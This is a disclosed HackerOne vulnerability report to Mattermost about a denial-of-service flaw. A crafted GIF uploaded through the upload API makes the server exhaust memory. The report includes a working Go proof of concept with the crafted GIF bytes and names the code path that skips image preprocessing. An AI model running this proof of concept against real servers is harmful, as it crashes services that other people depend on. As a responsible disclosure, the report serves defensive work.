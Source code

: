 # DOS: out of memory from gif through upload api

## Report Details
- **Report ID**: 1620170
- **URL**: https://hackerone.com/reports/1620170
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-06-30T09:41:37.544Z
- **Disclosed**: 2022-09-21T08:49:00.175Z

## Reporter
- **Username**: catenacyber
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mattermost

## Vulnerability Information
## Summary:
When sending a specially crafted gif with max dimensions through the upload API, we get Mattermost server to consume more than 4Gbytes of RAM

## Steps To Reproduce:
[add details for how we can reproduce the issue]

  1. Run `docker run --name mattermost-preview -d --publish 8065:8065 mattermost/mattermost-preview -m=4G` as documented https://docs.mattermost.com/guides/deployment.html with 4G limit from https://docs.mattermost.com/install/software-hardware-requirements.html#hardware-requirements-for-team-deployments
  1. Get one channel id
  1. Run this simple POC below with a valid channel id
  1. Docker container gets killed

```
package main

import (
	"bytes"
	"fmt"
	"github.com/mattermost/mattermost-server/v5/model"
)

func main() {
	Client := model.NewAPIv4Client("http://localhost:8065/")
	Client.Login("toto", "tototo")
	us := &model.UploadSession{
		ChannelId: "5dtj9hf89ifap8imigbzjc7wjo",
		Filename:  "oom.gif",
		FileSize:  31,
	}
	us, response := Client.CreateUpload(us)
	fmt.Printf("lol %s %#+v\n", us, response)
	data := []byte{0x47, 0x49, 0x46, 0x38, 0x39, 0x61, 0x2e, 0xf8, 0xff, 0xff, 0xf, 0x18, 0x18, 0x2c, 0x7f, 0x20, 0x0, 0x0, 0x0, 0xa0, 0xff, 0xff, 0xff, 0xd4, 0x9a, 0xf0, 0xb4, 0x8, 0x35, 0x4, 0x0}
	info, err2 := Client.UploadData(us.Id, bytes.NewReader(data))
	fmt.Printf("lol %s %#+v\n", err2, info)
}
```

This happens with `gif.DecodeAll` being called by `GetInfoForBytes` getting called by `App.UploadData` being called by `doUploadData` being called by `uploadData` without any call to `preprocessImage` as is done in the `api/v4/files` route

Docker container gets killed

## Impact

Crash a server

## Attachments
No attachments
